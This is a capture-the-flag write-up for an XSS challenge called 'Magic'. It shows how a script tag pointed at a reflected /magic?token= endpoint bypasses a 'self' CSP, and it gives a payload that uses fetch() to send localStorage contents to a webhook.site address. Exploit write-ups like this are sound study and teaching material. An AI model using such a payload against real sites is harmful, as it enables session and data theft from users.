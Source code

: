# Magic

Category: Web

> Can you find the trick?

This is quite a complex XSS challenge, but it's very fun to solve.

Logging into the site, we find a field to enter a memo. The memo will then be saved and displayed back to the user. Fortunately, the app forgot to HTML escape this field, which allows us to run an XSS attack. However, the major challenge is overcoming the restrictive CSP:

`Content-Security-Policy: style-src 'self' ; script-src 'self' ; object-src 'none' ; font-src 'none'`

Popping this into the [CSP Evaluator](https://csp-evaluator.withgoogle.com/) only gives 1 warning: 

```
script-src
	'self' can be problematic if you host JSONP, Angular or user uploaded files.
```

Hmm, it doesn't seem the site does any of this things. Or does it?

Doing a bit more poking around, we discover an autologin feature. Each user has a unique token, which automatically logs them in when they go to `/magic?token=<token>`. However, when the token is wrong, it is echoed back, with some protections:

```js
function escapeHTML(string) {
  return string
    .replace(/\&/g, "&amp;")
    .replace(/\</g, "&lt;")
    .replace(/\>/g, "&gt;")
    .replace(/\"/g, "&quot;")
    .replace(/\'/g, "&#x27");
}
```

This seems pretty decent against regular XSS. But can we exploit it in a different context?

It turns out that when a browser sees `<script src="http://site.com/stuff"></script>` it fetches `stuff` from `http://site.com` and executes it as JavaScript (as long as it fulfills CSP). There is no check if `stuff` is actually a JavaScript file. So you could go `<script src="https://google.com">` and your browser would fetch Google and execute it as JavaScript. 

Thus, we could do `<script src="/magic?token=<js here>//">` to execute arbitrary JS code. The only restriction is we're not allowed to use `'` or `"`, but we can easily circumvent that by using backticks (`` ` ``). From reading the source of the crawler, we know the flag is stored in `localStorage`. Thus, our payload would be

```html
<script src="https://magic.quals.beginners.seccon.jp/magic?token=fetch([`https://webhook.site/747c4c4a-6eeb-4eba-877e-5438363a0a47`,localStorage.getItem(`memo`)].join(`/`))//"></script>
```

`Flag: ctf4b{w0w_y0ur_skil1ful_3xploi7_c0de_1s_lik3_4_ma6ic_7rick}`

This exploit is kind of like shellcode for web I suppose.